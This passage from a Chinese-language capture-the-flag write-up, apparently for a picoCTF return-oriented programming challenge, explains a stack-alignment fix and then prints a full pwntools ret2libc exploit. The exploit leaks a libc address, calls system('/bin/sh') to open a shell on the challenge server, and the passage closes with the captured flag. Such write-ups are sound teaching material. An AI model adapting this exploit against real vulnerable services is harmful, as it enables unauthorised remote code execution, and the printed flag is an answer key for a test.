 解決方法也很簡單，在進到system以前多放一個`ret`讓`$rsp`減8就好，用`ROPgadget`可以找到非常符合需求的東西
```
0x000000000040052e : ret
```
把這個地址加到`/bin/sh`的後面，`system`的前面，最終payload長這樣
```py
# Phase 2
payload  = b'A'*136      # dummy
payload += p64(0x400913) # to gadget
payload += p64(libc_base+0x1b75aa) # pointer to "/bin/sh"
payload += p64(0x40052e) # stack alignment
payload += p64(system_runtime) # to system
```

{% include aligner.html images="posts/2021-08-17-return-oriented-programming/final-local.png" column=1 %}

本地成功了，那來試試遠端

{% include aligner.html images="posts/2021-08-17-return-oriented-programming/final-remote.png" column=1 %}

成功！最後的exploit長這樣
```py
from pwn import *

# r = process('./vuln')
# r = gdb.debug('./vuln', gdbscript='break do_stuff')
r = remote('mercury.picoctf.net', 37289)

r.recvuntil(b'sErVeR!') # welcome

# Phase 1
payload  = b'A'*136      # dummy
payload += p64(0x400913) # to gadget
payload += p64(0x601018) # value for rdi
payload += p64(0x400540) # to puts
payload += p64(0x4006d8) # to do_stuff

r.sendline(payload)
r.recvline() # \n
r.recvline() # AaAaAa...
res = r.recvline().rstrip()

# Address calculation
puts_runtime = u64(res + b'\x00' * (8-len(res)) )
log.info(f'[1] puts_runtime = {hex(puts_runtime)}')
libc_base = puts_runtime - 0x80a30 # REMOTE
# libc_base = puts_runtime - 0x875a0 # LOCAL
log.info(f'[2] libc_base = {hex(libc_base)}')
system_runtime = libc_base + 0x4f4e0 #REMOTE
# system_runtime = libc_base + 0x55410 # LOCAL
log.info(f'[3] system_runtime = {hex(system_runtime)}')

# Phase 2
payload  = b'A'*136      # dummy
payload += p64(0x400913) # to gadget
payload += p64(libc_base+0x1b40fa) # pointer to "/bin/sh", REMOTE
# payload += p64(libc_base+0x1b75aa) # pointer to "/bin/sh", LOCAL
payload += p64(0x40052e) # stack alignment
payload += p64(system_runtime) # to system

r.sendline(payload)
r.interactive()

# picoCTF{1_<3_sm4sh_st4cking_e900800fb4613d1e}
```